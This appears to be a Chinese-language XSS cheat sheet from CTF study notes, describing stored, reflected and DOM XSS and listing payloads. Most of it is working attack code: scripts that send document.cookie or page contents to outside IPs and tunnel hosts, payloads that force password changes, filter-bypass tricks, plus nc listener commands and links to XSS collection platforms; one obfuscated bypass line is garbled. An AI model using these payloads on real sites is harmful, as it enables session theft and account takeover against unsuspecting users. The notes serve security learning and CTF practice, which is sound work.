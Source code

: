 [XSS平台 - （支持http/https）XSS Platform](https://xss.pt/xss.php?do=register)
[xsshs.cn](https://xsshs.cn/)

nc -lvp 9999    //使用nc监听4444端口

python3 -m http.server 9999

http://8.130.20.254/
### 存储型
存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie

### 反射型
非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。反射型XSS大多数是用来盗取用户的Cookie信息

### DOM型
不经过后端，DOM-XSS漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，DOM-XSS是通过url传入参数去控制触发的，其实也属于反射型XSS

## 常用语句
<script>alert("1")</script>

'onclick='javascript:alert(1)' ('onclick=javascript:alert(1)//)：作为元素对象属性
onfocus
onblur

`"><a href='javascript:alert(1)'>xss</a>//`

`<script>alert(document.cookie)</script>`

## 外带

```
攻击者通常会利用已经存在的 XSS 漏洞，在受害者的浏览器上注入恶意代码，并将受害者的 Cookie 数据上传到攻击者控制的服务器上，然后攻击者就可以使用该 Cookie 来`冒充受害者`，执行一些恶意操作，例如盗取用户的账户信息、发起钓鱼攻击等。

<script>
var img=document.createElement("img"); img.src="http://118.31.168.198:39543/"+document.cookie;
</script>


<script>window.open('https://7dc5fa72.r7.cpolar.top/platform/?cookie='+document.cookie)</script>

<script>location.href='http://192.168.52.128:80'+document.cookie</script>

<svg onload="window.open('http://192.168.52.128:80'+document.cookie)">

<iframe onload="window.open('http://192.168.52.128:80'+document.cookie)"></iframe>

<body onload="window.open('https://185313a9.r1.cpolar.top/platform/?cookie='+document.cookie)">

<body οnlοad="window.location.href='https://3f4d3f9c.r10.cpolar.top/platform/?cookie='+document.cookie"></body>

<BODY ONLOAD=document.location='https://3f4d3f9c.r10.cpolar.top/platform/?cookie='+document.cookie;>

<img src=x onerror = document.body.appendChild(document.createElement('img')).setAttribute('src','http://4b467a9c.r9.cpolar.top/platform/?cookie='+document.cookie); >


（需根据实际情况增加?cookie=",因为需要传参正确）




以上为获取cookie

<script>window.open('https://185313a9.r1.cpolar.top/platform/?'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>

<script>$('.laytable-cell-1-0-1').each(function(index,value){
    if(value.innerHTML.indexOf('ctf'+'show{')>-1){
        window.location.href='http://ip/a.php?cookie='+value.innerHTML; 
    }
});</script>

<script>
var img = new Image();
img.src = "http://your-domain/cookie.php?cookie="+document.querySelector('#top > div.layui-container > div    :nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent;//问了师傅才知道这个标签是可以通过浏览器找到的，ttttqqqqll
document.body.append(img);
</script>


还有innerHTML和outerHTML的区别
1）innerHTML:
　　从对象的起始位置到终止位置的全部内容,不包括Html标签。
2）outerHTML:
　　除了包含innerHTML的全部内容外, 还包含对象标签本身。

```

## 存储型

```
注意：有些时候网页收到污染就无法继续进行，

通过外带获得Cookie，然后进行admin伪造，从而获得管理员权限

抓取到cookie会立刻失效，于是我们需要获得网页的内容

当有修改密码或其他操作时，可以考虑内网SSRF，

例：
修改密码时的url为/api/change.php?p=123，而修改的账户已经完成了登录，所以可以直接修改

于是可以用下面的payload进行修改密码：

<script>window.location.href='http://127.0.0.1/api/change.php?p=密码';</script>（GET）

POST：
<script>$.ajax({url:'http://127.0.0.1/api/change.php',type:'post',data:{p:'123',a:1}});</script>

<script>var httpRequest = new XMLHttpRequest();httpRequest.open('POST', 'http://127.0.0.1/api/change.php', true);httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");httpRequest.send('p=1234567');</script>

```

## 常见过滤手段

**空格过滤**
```
可用
TAB（拿%09的url解码得到的TAB来过滤,或者直接用tab键）
/
/**/

xss这个词有时候也会被过滤
```

![](./image/xss-1.png)

直接用"><script>alert("1")</script>构造闭合

![](./image/xss-2.png)
看到使用了htmlspecialchars方法，htmlspecialchars是将特殊符号转换成HTML实体。HTML为了防止特殊符号，如 "<"等html当成标签<br>
这时候我们的思路就尽量要绕开使用新标签，那么浏览器还有一些事件可以执行js代码，如onfocus，onblur，(onclick)但是这两个是属于输入框在光标进入/离开时调用后面的js代码<br>
且需要闭合前面的单引号（也有可能是双引号)

![](./image/xss-3.png)
可以使用a标签来绕过

### 大小写绕过
strtolower():将全部换为小写，无法使用大小写绕过

### 双写绕过
![](./image/xss-4.png)
因过滤成“”，所以可以使用双写绕过
" oonnfocus=javascscriptript:alert('xss')//
"><scscriptript>alert("xss")</scscriptript>//
"> <a hhrefref=javascscriptript:alert('xss')>xss</a>//

### Unicode编码绕过
![](./image/xss-5.png)
href在调用openurl传参时会自动进行unicode解码
javascript:alert(1)
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#10;

### hidden绕过
用于没有输入框情况，把原来的hidden类型改为text类型，从而实现添加属性
t_link=" type='text'>//&t_history=" type='text'>//&t_sort=" type='text'>//
t_sort=" type='text' onclick='javascript:alert(1)'//

## referer绕过

![](./image/xss-6.png)
打开网站后，发现t_ref中内容为上一个网站的内容，于是想到使用referer伪造

## 获取cookie

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

## 编码绕过

```
?='',?=!?+?,?=!?+?,?=?+{},?=?[?++], ?=?[?=?],?=++?+?,?=?[?+?],?[?+=?[?] +(?.?+?)[?]+?[?]+?+?+?[?]+?+?+?[?] +?][?](?[?]+?[?]+?[?]+?+?+"(?)")()
```

